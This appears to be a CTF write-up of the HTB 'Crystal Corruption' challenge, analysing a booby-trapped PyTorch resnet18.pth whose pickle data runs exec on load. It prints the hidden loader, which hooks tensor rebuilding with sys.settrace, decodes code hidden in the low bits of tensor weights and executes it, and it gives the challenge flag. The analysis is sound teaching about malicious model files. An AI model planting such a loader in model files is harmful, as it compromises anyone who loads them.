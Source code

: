 ```yaml
---
published: 2025-04-02
title: Crystal Corruption

---
```


This was the second Machine Learning challenge from HTB’s cyber apocalypse CTF and probably the one I enjoyed the most, in fact we are given a `resnet18.pth` and when we load it in the same way as the previous challenge we get immediately pwned, wow

```Python
Connecting to 127.0.0.1
Delivering payload to 127.0.0.1
Executing payload on 127.0.0.1
You have been pwned!
```

This is a very plausible exploit… too much plausible

Fortunately it’s just a CTF, so I started to look into `pytorch` source code and I found that `.pth` is basically just a wrapped `pickle`

I never fully understood how pickle worked until this challenge and I was amazed, it basically creates bytecode from a file and sends it to the interpreter.  
Now cool enough there is also a pure python implementation besides the C one in python.  

I replaced the default pickle class with a custom one copy-pasted from python source, I added a few prints and I discovered that an `exec` is called with the following args

```Python
import sys
import torch

def stego_decode(tensor, n=3):
    import struct
    import hashlib
    import numpy

    bits = numpy.unpackbits(tensor.view(dtype=numpy.uint8))
    payload = numpy.packbits(numpy.concatenate([numpy.vstack(tuple([bits[i::tensor.dtype.itemsize * 8] for i in range(8-n, 8)])).ravel("F")])).tobytes()
    (size, checksum) = struct.unpack("i 64s", payload[:68])
    message = payload[68:68+size]

    return message

def call_and_return_tracer(frame, event, arg):
    global return_tracer
    global stego_decode
    def return_tracer(frame, event, arg):
        if torch.is_tensor(arg):
            payload = stego_decode(arg.data.numpy(), n=3)
            if payload is not None:
                sys.settrace(None)
                exec(payload.decode("utf-8"))

    if event == "call" and frame.f_code.co_name == "_rebuild_tensor_v2":
        frame.f_trace_lines = False
        return return_tracer

sys.settrace(call_and_return_tracer)
```

It is a payload runner, so given that I am more a dymaic analysis kind of guy I actually replaced the tunner with a custom one that prints the decoded payload before evaluating it

```Python
PAYLOAD = """
import sys
import torch

def stego_decode(tensor, n=3):
    import struct
    import hashlib
    import numpy

    bits = numpy.unpackbits(tensor.view(dtype=numpy.uint8))
    payload = numpy.packbits(numpy.concatenate([numpy.vstack(tuple([bits[i::tensor.dtype.itemsize * 8] for i in range(8-n, 8)])).ravel("F")])).tobytes()
    (size, checksum) = struct.unpack("i 64s", payload[:68])
    message = payload[68:68+size]

    return message

def call_and_return_tracer(frame, event, arg):
    global return_tracer
    global stego_decode
    def return_tracer(frame, event, arg):
        if torch.is_tensor(arg):
            payload = stego_decode(arg.data.numpy(), n=3)
            if payload is not None:
                sys.settrace(None)
                print(payload)
                exec(payload.decode("utf-8"))

    if event == "call" and frame.f_code.co_name == "_rebuild_tensor_v2":
        frame.f_trace_lines = False
        return return_tracer

sys.settrace(call_and_return_tracer)"""
```

replaced pickle function loading

```Python
    def load_reduce(self):
        stack = self.stack
        args = stack.pop()
        func = stack[-1]
        if func.__name__ == 'exec':
            print(func.__name__)
            print(args)
            stack[-1] = exec(PAYLOAD)
        else:
            stack[-1] = func(*args)
```

and here we go with the decoded payload

```Python
import os
def exploit():
    connection = f"Connecting to 127.0.0.1"
    payload = f"Delivering payload to 127.0.0.1"
    result = f"Executing payload on 127.0.0.1"
    print(connection)
    print(payload)
    print(result)
    print("You have been pwned!")
hidden_flag = "HTB{n3v3r_tru5t_p1ckl3_m0d3ls}"
exploit()
```